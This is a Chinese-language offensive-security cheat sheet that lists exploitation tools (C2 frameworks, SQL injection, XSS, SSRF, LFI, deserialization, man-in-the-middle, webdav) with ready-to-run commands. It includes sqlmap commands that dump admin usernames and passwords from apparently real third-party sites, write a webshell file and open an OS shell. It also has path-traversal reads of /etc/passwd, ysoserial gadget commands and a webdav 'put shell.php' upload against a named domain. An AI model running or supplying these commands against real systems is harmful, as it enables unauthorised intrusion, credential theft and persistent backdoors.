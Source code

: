 漏洞利用
========================================

漏洞查询
----------------------------------------
- searchsploit
	+ ``更新：searchsploit -u`` 
	+ ``poc位置：linux/remote/13853.pl``
	+ ``下载：searchsploit -m php/webapps/7185.php`` 

C2服务器
----------------------------------------
- `Ninja <https://github.com/ahmedkhlief/Ninja/>`_
- `Covenant <https://github.com/cobbr/Covenant>`_
- `WSC2 <https://github.com/ver007/WSC2>`_
- `Cobalt Strike <https://blog.cobaltstrike.com/category/cobalt-strike-2/>`_
- `GRAT2 <https://github.com/r3nhat/GRAT2.git>`_
- `MeetC2 <https://github.com/CMatri/MeetC2>`_

补丁比对
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Zynamics Bindiff <https://dl.google.com/dl/zynamics/bindiff430.msi>`_
- `turbodiff <https://www.coresecurity.com/corelabs-research/open-source-tools/turbodiff>`_
- `patchdiff2 <https://code.google.com/archive/p/patchdiff2/downloads>`_
- `diaphora <http://diaphora.re/>`_

数据库注入
----------------------------------------
- `SQLMap <https://github.com/sqlmapproject/sqlmap>`_
	+ 默认选择不询问用户输入
		``--batch``
	+ 指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）
		``sqlmap -u http://www.vuln.cn/post.php?id=1  –dbms mysql –level 3``
	+ cookie注入
		``sqlmap -u http://www.baidu.com/shownews.asp –cookie “id=11” –level 2``
	+ 列举数据库管理系统中的用户
		``–users``
	+ 列举并破解数据库管理系统用户密码Hash值
		``--passwords -v 1``
	+ 列举数据库管理系统的用户权限
		``–privileges``
	+ 指定注入技术
		指定bool注入：``--technique B/T/E/U/S``，分别为布尔注入，时间盲注，报错注入，联合查询注入，堆查询注入
	+ POST注入
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms`` 
	+ POST查找数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms --dbs`` 
	+ POST查找当前的数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms --current-db`` 
	+ POST查找表名
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 --tables`` 
	+ POST查找列名
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin --columns`` 
	+ POST爆出数据
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin -C user_name,user_pwd --dump`` 
	+ POST指定表单
		``sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb"`` 
	+ POST加载文件
		``sqlmap -r "post.txt" -p n --dbs`` 
	+ POST查找当前数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb" --current-db`` 
	+ 读取与写入文件
		| 首先找需要网站的物理路径，其次需要有可写或可读权限.
		| –file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
		| –file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
		| –file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
		| ``sqlmap -r “c:\request.txt” -p id –dbms mysql –file-dest “e:\php\htdocs\dvwa\inc\include\1.php” –file-write “f:\webshell\1112.php”``
	+ 执行命令
		``sqlmap -u http://192.168.159.1/news.php?id=1 --os-cmd=ipconfig`` 
	+ 使用shell命令
		``sqlmap -r “c:\tools\request.txt” -p id –dms mysql –-os-shell``
- `bbqsql <https://github.com/Neohapsis/bbqsql>`_

非结构化数据库注入
----------------------------------------
- `NoSQLAttack <https://github.com/youngyangyang04/NoSQLAttack>`_
- `NoSQLMap <https://github.com/codingo/NoSQLMap>`_
- `Nosql Exploitation Framework <https://github.com/torque59/Nosql-Exploitation-Framework>`_
- `MongoDB audit <https://github.com/stampery/mongoaudit>`_

数据库漏洞利用
----------------------------------------
- `mysql unsha1 <https://github.com/cyrus-and/mysql-unsha1>`_

XSS
----------------------------------------
- `BeEF <https://github.com/beefproject/beef>`_
- `XSS Reciver <https://github.com/firesunCN/BlueLotus_XSSReceiver>`_
- `DSXS <https://github.com/stamparm/DSXS>`_
- `XSStrike <https://github.com/s0md3v/XSStrike>`_
- `xsssniper <https://github.com/gbrindisi/xsssniper>`_
- `tracy <https://github.com/nccgroup/tracy>`_
- `crlfuzz <https://github.com/dwisiswant0/crlfuzz>`_
- `CRLF-Injection-Scanner <https://github.com/MichaelStott/CRLF-Injection-Scanner>`_

SSRF
----------------------------------------
- `SSRFmap <https://github.com/swisskyrepo/SSRFmap>`_
- `SSRF Proxy <https://github.com/bcoles/ssrf_proxy>`_
- `Gopherus <https://github.com/tarunkant/Gopherus>`_
- `SSRF Testing <https://github.com/cujanovic/SSRF-Testing>`_

模版注入
----------------------------------------
- `tplmap <https://github.com/epinna/tplmap>`_

命令注入
----------------------------------------
- `commix <https://github.com/commixproject/commix>`_

LFI
----------------------------------------
- `LFISuite <https://github.com/D35m0nd142/LFISuite>`_
- `FDsploit <https://github.com/chrispetrou/FDsploit>`_
	+ 目录遍历漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 8``
	+ LFI漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 7 -k root -p /etc/passwd``
		| -k 响应包中搜索关键字
		| -p 指定包含的文件
		| -d 指定路径包含的深度
- burpsuite
	+ Intruder->Sniper
		::
		
			file=§1§/etc/passwd
			选择Sniper攻击方式，payload type选择Character blocks
			Base string:../
			Min length:0
			Max length:20
			step:1

DNS 隧道
----------------------------------------
- `dnstunnel de <https://dnstunnel.de/>`_
- `iodine <https://code.kryo.se/iodine/>`_
- `dnscat2 <https://github.com/iagox86/dnscat2>`_

XXE
----------------------------------------
- `XXEinjector <https://github.com/enjoiz/XXEinjector>`_
- `XXER <https://github.com/TheTwitchy/xxer>`_

反序列化
----------------------------------------
+ php序列化
	- `phpggc <https://github.com/wh1t3p1g/phpggc>`_
+ java序列化工具
	- `java ysoserial <https://github.com/frohoff/ysoserial>`_
	- `JRE8u20 RCE Gadget <https://github.com/pwntester/JRE8u20_RCE_Gadget>`_
	- `Java Serialization Dumper <https://github.com/NickstaDB/SerializationDumper>`_
	- `gadgetinspector <https://github.com/JackOfMostTrades/gadgetinspector>`_ A byte code analyzer for finding deserialization gadget chains in Java applications
+ c# .net序列化工具
	- `.net ysoserial <https://github.com/pwntester/ysoserial.net>`_
		::
		
			./ysoserial.exe -p DotNetNuke -M run_command -C calc.exe
			./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
			./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
			./ysoserial.exe -p DotNetNuke -M run_command -C calc.exe
			./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
			./ysoserial.exe -g ClaimsPrincipal -f BinaryFormatter -c foobar -bgc ActivitySurrogateDisableTypeCheck --minify --ust

中间人攻击
----------------------------------------

- `mitmproxy <https://github.com/mitmproxy/mitmproxy>`_
- `MITMf <https://github.com/byt3bl33d3r/MITMf>`_
- `ssh mitm <https://github.com/jtesta/ssh-mitm>`_
- `injectify <https://github.com/samdenty99/injectify>`_
- `Responder <https://github.com/lgandx/Responder>`_ Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication. 

webdav利用
----------------------------------------
- webdav批量扫描：IISPutScanner
- `webdav利用工具 <http://www.webdav.org/cadaver/>`_
	+ ``cadaver http://door.legacyhangtuah.com/webdav/``
	+ 上传webshell: ``put shell.php``